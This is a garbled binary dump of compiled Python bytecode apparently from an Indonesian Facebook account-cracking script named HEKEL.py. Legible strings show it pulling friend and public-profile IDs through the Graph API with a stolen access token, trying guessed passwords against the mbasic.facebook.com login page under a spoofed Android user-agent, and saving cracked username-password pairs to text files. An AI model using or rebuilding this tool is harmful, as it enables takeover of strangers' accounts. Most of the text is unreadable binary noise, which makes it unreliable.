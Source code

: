 ���user-agentR¢���s���save-devices���[0;92m[OK][0;97m s��� [0;92mâ—Š [0;97mRj���s���done/bangla.txtRh���s��� [OK] s��� â—Š RH���s���[0;93m[CP][0;97m s��� [0;91mâ—Š[0;97m s��� [0;91mâ—Š [0;97ms��� [CP] R£���R¤���t���102030s��� [0;92mâ—Š 033[0;97m(���R���R¦���R§���R[���R\���Rb���R]���R^���R_���R‚���R¨���RI���R���R`���R©���Rª���R«���(���R¬���R­���R®���RB���t���pzR°���R±���R²���R³���t���pz2t���pz3t���pz4(����(����s���/sdcard/HEKEL.pyR·�����sŒ���� 7 7 7 7 i���sž��� [0;94mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s-���[1;97m([1;94mâ€¢[1;97m) [1;97mSelesai ...sS���[1;97m([1;94mâ€¢[1;97m) [1;97mTotal [1;92mOK[1;97m/[1;93mCP [1;97m: [1;92ms���[1;97m/[1;93ms]���[1;97m([1;94mâ€¢[1;97m) [1;97mSalin hasil crack lalu simpan[1;91m:[1;97mdone bangla.txti2���s ���[1;94mâ”€s���[1;97m([1;91mKembali[1;97m) (#���R%���RÆ���R���R���RŠ���R ���R���R[���R\���Rb���R]���R^���R_���Rc���Rª���RK���R—���Ra���R���R���RI���R¸���R¹���RL���RŽ���Rº���R»���R���R ���R���R����R¼���R©���R«���RJ���(���R½���R2���R���R¾���R¿���RÀ���RÁ���RÂ���RÃ���RÄ���R���R���R·���RÅ���(����(����s���/sdcard/HEKEL.pyRÆ���¿��s¦���� L) c�����������C���sé���t��j�d�ƒ�y�t�d�d�ƒ�j�ƒ��a�Wn7�t�k �r_�d�GHt��j�d�ƒ�t�j�d�ƒ�t�ƒ��n�Xt��j�d�ƒ�t�GHd�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d �GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�t �ƒ��d��S( ���NR���s���login.txtR2���s���([0;91m![0;97m) Token Invalids���rm -rf login.txti���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s)���[0;97m1).[0;97m Crack Dari Daftar Temans)���[0;97m2).[0;97m Crack Dari Publik/Temans!���[0;97m3).[0;97m Crack Dari Files ���[0;91m0[0;97m).[0;97m Kembali(���R���R���RI���R����Rb���RL���R ���R���R���RŠ���t���pilih_pakis(����(����(����s���/sdcard/HEKEL.pyR˜���j��s.���� c����������C���s ��t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��n|��d�k�r¥�t�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t�j�d�t�ƒ�}�t �j�|�j�ƒ�}�x¹|�d�D]�}�t �j�|�d �ƒ�q‡�Wn“|��d�k�rÎt�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�y>�t�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�d�|�d�GHWnI�t�k �rUd�GHt��d�ƒ�t�ƒ��n#�t�j�j�k �rwd�GHt�ƒ��n�Xt�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�x�|�d�D]�}�t �j�|�d �ƒ�q°Wnj|��d�k�sæ|��d�k�r¦t�j�d�ƒ�t�GHyb�d�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�x0�t�|�d�ƒ�j�ƒ��D]�}�t �j�|�j�ƒ��ƒ�q<WWqÔt�k �r|d�GHt��d�ƒ�qÔt�k �r¢d�GHt��d�ƒ�t�ƒ��qÔXn.�|��d�k�s¾|��d�k�rÈt�ƒ��n�d�GHt�ƒ��d�t�t�t �ƒ�ƒ�GHt�j�d�ƒ�d�d �d!�g�} �x0�| �D](�}�d"�|�Gt�j�j�ƒ��t�j�d#�ƒ�qWd$�GHt�j�d�ƒ�d%�GHt�j�d�ƒ�d&�GHt�j�d�ƒ�d'�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d(�„��}�t�d)�ƒ�} �| �j�|�t �ƒ�d*�GHd+�GHd,�t�t�t �ƒ�ƒ�d-�t�t�t!�ƒ�ƒ�GHd.�GHd/�d0�GHt��d1�ƒ�t"�ƒ��d��S(2���Ns ���[1;97m(?) Pilih [94m> [1;97m R���s���([0;91m![0;97m) Isi Yg BenarR ���R���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s3���https://graph.facebook.com/me/friends?access_token=Rf���Rc���R!���s5���[1;97m([0;94mâ€¢[0;97m) ID Publik [0;91m:[0;97m s���https://graph.facebook.com/s���?access_token=s0���[1;97m([0;94mâ€¢[0;97m) Nama [0;91m:[0;97m Rj���s+���([0;91m![0;97m) ID publik/teman tidak adas��� [1;97m([1;91mKembali[1;97m)s*���[1;97m([0;91m![0;97m) Tidak ada koneksis���/friends?access_token=R"���R����s<���[1;97m([1;94mâ€¢[1;97m) [1;97mNama File[1;91m :[1;97m R2���s#���([0;91m![0;97m) File tidak ada ! s���[1;97m([1;91mKembali[1;97m)s"���([0;91m![0;97m) File tidak ada !R$���Rž���s4���[0;97m([0;94mâ€¢[0;97m) Total Id[1;91m :[1;97m s���. s���.. s���... s$��� ([0;94mâ€¢[0;97m) Crack Berjalan i���sž��� [0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s9���[0;97m Lama Hasil Gunakan Mode Perawan 3 Detik JossðŸ‘�s4���[0;97m Untuk Menghentikan Proses, Tekan CTRL + zs7���[0;97m Sedang Proses Mohon Bersabar, Semoga Beruntungc��� ������S���sJ��|��}�y�t��j�d�ƒ�Wn�t�k �r*�n�Xyt�j�d�|�d�t�ƒ�}�t�j�|�j�ƒ�}�|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sÁ�d�|�k�r d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nd�|�k�r‹d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n°d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�séd�|�k�rHd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nód�|�k�r³d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nˆ|�d�d�} �t�j�d�d�i�|�d�6| �d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sd�|�k�rxd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�nÃd�|�k�rãd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�nX|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sId�|�k�r¨d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n“d�|�k�rd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n(d �}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sqd�|�k�rÐd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nk�d�|�k�r;d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n��Wn�n�Xd��S(!���NRŸ���s���https://graph.facebook.com/s���/?access_token=R ���R¡���s%���https://mbasic.facebook.com/login.phpRf���R4���R5���RU���R0���Rt���s7��Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]s ���user-agentR¢���s���save-devices���[0;92m[OK][0;97m s��� [0;92mâ—Š [0;97mRj���s���done/pakis.txtRh���s��� [OK] s��� â—Š RH���s���[0;93m[CP][0;97m s��� [0;91mâ—Š[0;97m s��� [0;91mâ—Š [0;97ms��� [CP]